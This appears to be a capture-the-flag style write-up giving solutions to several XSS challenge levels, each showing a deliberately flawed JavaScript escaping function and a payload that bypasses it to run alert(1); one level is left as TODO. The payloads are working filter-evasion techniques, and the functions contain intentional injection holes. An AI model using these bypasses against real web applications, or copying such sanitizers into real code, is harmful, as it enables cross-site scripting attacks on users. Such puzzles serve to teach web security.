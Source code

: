 ## JSON 2
```js
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```
Payload: `</scri</scriptpt><script>alert(1)//`

## Callback 2
```js
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```
Payload: `'#';alert(1);<!--`  
  
## iframe
> TODO

## TI(S)M
```js
function escape(s) {
  function json(s) { return JSON.stringify(s).replace(/\//g, '\\/'); }
  function html(s) { return s.replace(/[<>"&]/g, function(s) {
                        return '&#' + s.charCodeAt(0) + ';'; }); }

  return (
    '<script>' +
      'var url = ' + json(s) + '; // We\'ll use this later ' +
    '</script>\n\n' +
    '  <!-- for debugging -->\n' +
    '  URL: ' + html(s) + '\n\n' +
    '<!-- then suddenly -->\n' +
    '<script>\n' +
    '  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);\n' +
    '  else new Image().src = url;\n' +
    '</script>'
  );
}
```
Payload: `http:/<!--<script>/|alert(1);if(/1//*`
